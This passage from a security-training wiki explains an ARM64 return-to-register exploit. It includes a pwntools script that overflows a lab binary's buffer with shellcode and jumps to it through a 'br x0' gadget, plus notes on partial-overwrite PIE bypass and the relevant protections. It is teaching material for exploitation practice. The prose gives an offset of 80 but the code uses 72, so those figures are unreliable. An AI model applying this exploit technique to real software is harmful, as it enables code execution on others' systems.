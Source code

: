 We will use that gadget to jump to it because the binary is compile **WITHOUT PIE.** Using a pattern it's possible to see that the **offset of the buffer overflow is 80**, so the exploit would be:

```python
from pwn import *

p = process('./ret2x0')
elf = context.binary = ELF('./ret2x0')

stack_offset = 72
shellcode = asm(shellcraft.sh())
br_x0 = p64(0x4006a0) # Addr of: br x0;
payload = shellcode + b"A" * (stack_offset - len(shellcode)) + br_x0

p.sendline(payload)
p.interactive()
```

> [!WARNING]
> If instead of `fgets` it was used something like **`read`**, it would have been possible to bypass PIE also by **only overwriting the last 2 bytes of the return address** to return to the `br x0;` instruction without needing to know the complete address.\
> With `fgets` it doesn't work because it **adds a null (0x00) byte at the end**.

## Protections

- [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md): If the stack isn't executable this won't help as we need to place the shellcode in the stack and jump to execute it.
- [**ASLR**](../common-binary-protections-and-bypasses/aslr/) & [**PIE**](../common-binary-protections-and-bypasses/pie/): Those can make harder to find a instruction to jump to esp or any other register.

## References

- [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode)
- [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp)

{{#include ../../banners/hacktricks-training.md}}




